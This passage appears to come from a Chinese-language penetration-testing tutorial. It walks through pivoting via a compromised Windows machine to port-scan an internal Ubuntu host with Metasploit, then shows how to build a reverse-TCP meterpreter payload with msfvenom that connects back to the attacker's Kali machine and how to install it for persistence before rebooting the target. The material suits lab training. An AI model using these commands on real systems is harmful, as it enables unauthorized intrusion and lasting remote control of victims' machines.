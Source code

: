 1.  接下来，为了验证我们已经枢纽，我们将尝试使用 Metasploit 对隐藏的 Ubuntu 机器进行端口扫描：

```
use auxiliary/scanner/portscan/tcp
set RHOSTS <<Ubuntu IP address>>
run
```

上述命令的输出如下：

![](img/f53dd1f8-1773-4cc4-9dfd-50122717f12e.jpg)

从扫描结果中，我们可以看到有许多端口是开放的。这意味着我们成功地枢纽了我们的受损机器。我们可以得出这样的结论，因为只有端口`22`（SSH）是公开的；从任何其他机器进行的扫描只会显示端口`22`是开放的。一旦枢纽成功，我们可以通过我们的受损 Windows 机器在内部网络中执行大量攻击。

现在是我们练习的最后一部分——我们如何确保我们对受损机器有持久访问？我们可以使用后渗透模块来实现。首先，我们需要创建一个恶意的`.exe`文件，它将连接回我们的 Kali 机器。为此，我们将使用 Metasploit 套件中的另一个工具`msfvenom`：

1.  如果你在 meterpreter 会话中，将其后台化，并输入以下命令：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali ip> LPORT=4444 -f exe -o /tmp/evil.exe
```

使用`msfvenom`，我们创建了一个需要传输到受害者机器的`exe`文件。

1.  重新进入 meterpreter 会话，输入以下命令：

```
run post/windows/manage/persistence_exe REXEPATH=/tmp/evil.exe REXENAME=default.exe STARTUP=USER LocalExePath=C:\\tmp
```

上述命令的输出如下：

![](img/3ef86d02-f685-4f04-a6c6-74888a38a4d1.jpg)

让我们检查一下我们的持久性是否有效。为了验证这一点，在 meterpreter 会话中，重新启动目标服务器并退出 meterpreter 会话。从 meterpreter 会话中输入以下命令：

```
reboot
```

通过运行`exit`命令退出 meterpreter 会话。
